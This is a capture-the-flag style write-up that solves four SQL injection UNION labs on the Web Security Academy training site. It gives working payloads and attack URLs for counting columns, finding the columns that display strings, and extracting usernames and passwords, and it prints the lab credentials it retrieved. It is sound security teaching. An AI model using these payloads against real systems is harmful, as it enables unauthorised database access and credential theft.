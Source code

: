 <h1>SQL injection UNION attacks</h1>

When we get the confirmation of a possible SQL injecion vulnerability by having the results of the query returned within the application's responses, we can use the `UNION` keyword to retrieve data from other tables within the database.

The UNION keyword lets us execute one or more addictional SELECT queries, appending the results to the original query:

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

For the UNION query to work, the individual queries must return the same number of columns, and the data types in each columns must be compatible between the individual queries.

To carry out an SQL injection UNION attack, we need to figure out the number of columns returned from the original query, and which of these columns displays data.

## Determining the number of columns required in an SQL injection UNION attack


![1](https://user-images.githubusercontent.com/57036558/76720663-5b3eee80-6735-11ea-9a42-b6a581acfdb8.png)

In this lab we are asked to perform an SQL injection UNION attack that returns an additional row containing null values.

To determine how many columns are being returned from the original query we have two methods: `ORDER BY` and `UNION SELECT NULL--`.

The first method works by incrementing the specified column indext until an error occurs.

For example on the URL:

```
https://web-security-academy.net/filter?category=Corporate+gifts
```

We would do this by adding `' ORDER BY 1--` to the URL, and continue using the method incrementing each time the number of columns. This method is specified by the columns index, so we don't need to know the name of any columns for it to work, and when the specified column index exceeds the number of actual columns the database returns an error (may not even return an error, but we should notice some difference in the application's response when we exceed the database's number of columns index).

Since we are asked to execute an UNION attack containing null values, we will use the second method on this lab.

The second method involves submitting a series of `UNION SELECT` payloads specifying the number of columns with a `NULL` value. 

Example:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc. 
```

When the number of nulls matches the number of columns, the database returns an additional row in the results set, containing null values in each column. Until there, the application will keep returning some kind of error message.

We can exploit this vulnerabilty in two ways:

1 - Changing the URL on the browser by adding the `NULL` value until we get the correct number of columns:

```
https://web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,NULL--
```

2 - Using Burp Suite by modifying the request with the same method above:

![2](https://user-images.githubusercontent.com/57036558/76721614-837c1c80-6738-11ea-90bf-599b3f01d0aa.png)

In the end we can see that the database has 3 columns, and we solve the lab.

## Finding columns with a useful data type in an SQL injection UNION attack

![3](https://user-images.githubusercontent.com/57036558/76775503-5746b700-679d-11ea-9fed-f8d1f0866e41.png)

In this lab, we are asked to retrieve data from other tables using a UNION attack to find a column containing the value `'FzOyty'`.

The SQL injection UNION attack allows us to retrieve the results from an injected query. To do that, after finding the number of columns in the database, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data (the data we will want to retrieve will be, generally, in string form).

We can use the `UNION SELECT` payload to place a string value into each column in turn, for example, the query in this lab returns three columns, so we will submit:

```
' UNION SELECT 'FzOyty',NULL,NULL--
' UNION SELECT NULL,'FzOyty',NULL--
' UNION SELECT NULL,NULL,'FzOyty'--
```

If an error does not occur, then the column that contains the string value is suitable for retrieving string data. Otherwise, the injected query will cause a database error.

To solve this exercise we can either use Burp Suite to intercept and modify the request, or do it directly in the browser:

```
https://web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,%27FzOyty%27,NULL--
```

Placing the string in the second column will not result in an error and will display the content on the webpage, this solving the lab.

## Using an SQL injection UNION attack to retrieve interesting data

![4](https://user-images.githubusercontent.com/57036558/76780826-90832500-67a5-11ea-9340-793a427a9d3d.png)

To solve this lab we need to perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

After we found which columns can hold string data, we can then retrieve interesting data.

Using the methods reproduced in the above labs, we can see that this database has two columns, and those two columns can hold string data. 

We are given the information that the database contains a table called `users`, with columns called `username` and `password`. To retrieve all usernames and passwords from the users table, we can submit the following input:

```
' UNION SELECT username, password FROM users--
```

As before we can do this attack directly on the URL:

```
https://web-security-academy.net/filter?category=Lifestyle%27+UNION+SELECT+username,password+FROM+users--
```

Or using Burp Suite:

![5](https://user-images.githubusercontent.com/57036558/76782469-3b94de00-67a8-11ea-943b-a31e6addcba6.png)

After submitting the input the query returns information about three users and their passwords:

```
carlos:xu1f3n
wiener:eql8f3
administrator:6puxvf
```

By logging in as administrator we solve the lab.

## Retrieving multiple values within a single column

![6](https://user-images.githubusercontent.com/57036558/76866801-8ec86880-685c-11ea-9313-7513f9db161a.png)

To solve this lab, we are asked to perform an SQL injection UNION attack that retrieves all username and passwords, and use the information to log in as the administrator.

The process is the same as the above exercise, but instead of two columns returning data we only have one.

To retrieve multiple values together within a single columns we need to concatenate them. The methods vary depending on the database we are performing the SQL injection, but these lab uses Oracle so the concatenation can be done with the following input:

```
' UNION SELECT username || '~' || password FROM users--
```

This input uses the double-pipe sequence `||` as the concenation string and the `~` character to separate the values of the username and password fields.

To execute the attack we first need to find the number of columns, then which column displays the data and then execute the input.

As before to do that we can use either Burp Suite or just submit the input directly in the browser's URL:

```
https://web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+null,username||%27~%27||password+FROM+users--
```
The result of this query is the usernames and passwords on the database:

```
carlos~33313j
administrator~j3s1l0
wiener~36q718
```

To solve the lab we just need to login with the administrator credentials
